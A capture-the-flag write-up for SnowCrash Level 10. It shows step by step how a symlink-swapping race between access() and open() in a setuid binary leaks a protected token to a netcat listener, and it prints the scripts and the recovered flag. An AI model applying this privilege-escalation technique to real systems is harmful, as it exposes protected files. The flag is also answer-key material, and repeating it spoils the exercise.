


## Level 10


## Clues


Same type of problem we have here:

```
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
level10@SnowCrash:~$
```

Lets see what the executable does :

```
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
level10@SnowCrash:~$ echo "hello" > /tmp/file
level10@SnowCrash:~$ ./level10 /tmp/file 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
level10@SnowCrash:~$
```
```
level10@SnowCrash:~$ strace ./level10 /tmp/hello 127.0.0.1
write(1, "Connecting to 127.0.0.1:6969 .. ", 32Connecting to 127.0.0.1:6969 .. ) = 32
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(6969), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
write(3, ".*( )*.\n", 8)                = 8
write(1, "Connected!\n", 11Connected!
)            = 11
write(1, "Sending file .. ", 16Sending file .. )        = 16
open("/tmp/hello", O_RDONLY)            = 4 //Open our file
read(4, "hehe\n", 4096)                 = 5
write(3, "hehe\n", 5)                   = 5
write(1, "wrote file!\n", 12wrote file!
)           = 12
```
The executable seems able to send file to host, using the 6969 port, lets make another ssh connection in order to listen to it.

```
level10@SnowCrash:~$ ./level10 /tmp/file 127.0.0.1
Connecting to 127.0.0.1:6969 .. Connected!
Sending file .. wrote file!
level10@SnowCrash:~$
```

```
level10@SnowCrash:~$ nc -lk 6969
.*( )*.
hello

```

So it reads our file and send us the content, it also send us a banner ```.*( )*.``` maybe for the sake of the socket connection.


## Solution


So we must crack that executable so it opens the token file, reads it and send it to us.


```
level10@SnowCrash:~$ ./level10 token 127.0.0.1
You don't have access to token
level10@SnowCrash:~$
```

Lets check how the program check the permission.

```
level10@SnowCrash:~$ ltrace ./level10 token 127.0.0.1
access("token", 4)                                                        = -1
printf("You don't have access to %s\n", "token"You don't have access to token
)                          = 31
level10@SnowCrash:~$
```

It is using an access, lets try with a symlink.

```
level10@SnowCrash:~$ ln -sf token /tmp/faketoken
level10@SnowCrash:~$ ./level10 /tmp/faketoken 127.0.0.1
You don't have access to /tmp/faketoken
level10@SnowCrash:~$
```

Not working...

We dont have the right permission of the executable, so we can't change his assembly code in order to modify his ```if``` statement.

I also tried to use breakpoint with GDB, to succeed the first access() call, and then change the symlink to the token file, it is working, but the open() function calls fail, since using a debugger to an SSUID binary, will remove his elevated permission.



From this point i didn't saw any breach to look for.

So i thought that if we did the exact same thing, but without a debugger it would work.

The only way to make it possible is to use a brute force script that will constantly change the symlink, and another one that will call the executable in a loop.

With those script, an offset will be created, and the program might get tricked to open the token file.




symlink.sh file :
```
ln -sf /tmp/hello token
ln -sf ~/token token
/tmp/symlink.sh
```

request.sh :
```
./level10 /tmp/token 127.0.0.1
/tmp/request.sh
```


Lets launch both of the script and check for the result:

```
nc -lk 6969

.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
```

The result may depend of the computer performance, but its working, and it was really a tough one.


## What i learned 

Searching for vulnerabilities is time consuming and frustrating, and can lead to days without any discoveries.

You can actually change condition by editing the assembly code, like jump if equal, to jump if not equal, by editing the executable with vim -b.

More reverse engineering practice.

Perseverance and more curiosity.